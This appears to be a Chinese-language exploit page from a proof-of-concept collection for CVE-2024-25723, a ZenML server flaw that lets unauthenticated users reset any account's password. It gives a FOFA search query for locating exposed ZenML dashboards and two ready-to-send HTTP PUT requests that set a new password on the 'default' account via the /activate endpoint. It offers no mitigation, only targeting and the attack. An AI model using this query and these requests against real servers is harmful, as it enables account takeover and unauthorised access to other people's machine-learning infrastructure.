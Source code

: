 ## ZenML服务器远程权限提升漏洞(CVE-2024-25723)

ZenML服务器远程权限提升漏洞（CVE-2024-25723）存在于Python的0.46.7之前的ZenML机器学习包中的ZenML服务,漏洞源于/*/{user_name_or_id}/activate REST API 端点允许基于有效用户名和请求正文中的新密码进行访问，可导致未授权用户远程权限提升，可直接重置任意ZenML账户密码。



## fofa
```
title=="ZenML - Dashboard"
```

## poc
```
PUT /api/v1/users/*/activate HTTP/1.1
Host: 
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 31

{"password": "Ldwk@20240426"}


PUT /api/v1/users/default/activate HTTP/1.1
Host: 
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 31

{"password": "Ldwk@20240426"}
```

![image](../../images/698ab566-b17e-48c0-954d-1dd21f795405.png)
